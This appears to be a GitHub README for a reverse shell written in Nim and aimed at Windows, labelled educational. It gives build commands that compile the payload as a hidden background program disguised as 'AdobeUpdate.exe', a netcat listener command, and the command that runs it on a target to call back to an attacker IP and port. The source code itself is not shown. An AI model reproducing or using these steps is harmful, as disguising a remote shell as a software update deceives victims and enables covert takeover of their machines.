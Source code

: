 # Nim Reverse Shell

A simple reverse shell written in Nim (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10, 11

### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port or when executing.

```bash
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev_shell.nim
```
#### Parameters
*  -d: define compiler
*  --app: generate gui app
*  --opt: optimize for speed
*  -o: output
### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```



